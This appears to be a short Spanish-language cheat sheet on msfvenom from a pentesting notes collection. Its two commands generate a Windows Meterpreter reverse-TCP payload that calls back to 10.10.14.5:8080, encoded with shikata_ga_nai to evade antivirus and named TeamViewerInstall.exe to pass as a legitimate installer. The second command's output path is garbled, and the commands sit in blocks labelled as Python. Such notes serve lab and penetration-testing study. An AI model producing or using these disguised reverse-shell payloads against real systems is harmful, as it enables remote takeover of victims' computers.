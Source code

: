 # MSFVENOM
## Descripción
MSFVENOM es una herramienta que viene integrada en metasploit framework que sirve principalmente para crear payloads, podemos ver algunos ejemplos con enconders para darle algo mas de sabor.

### Encoder shikata_ga_nai sin interacciones
```python
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```

### Encoder shikata_ga_nai con interacciones
```python
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe./TeamViewerInstall.exe
```

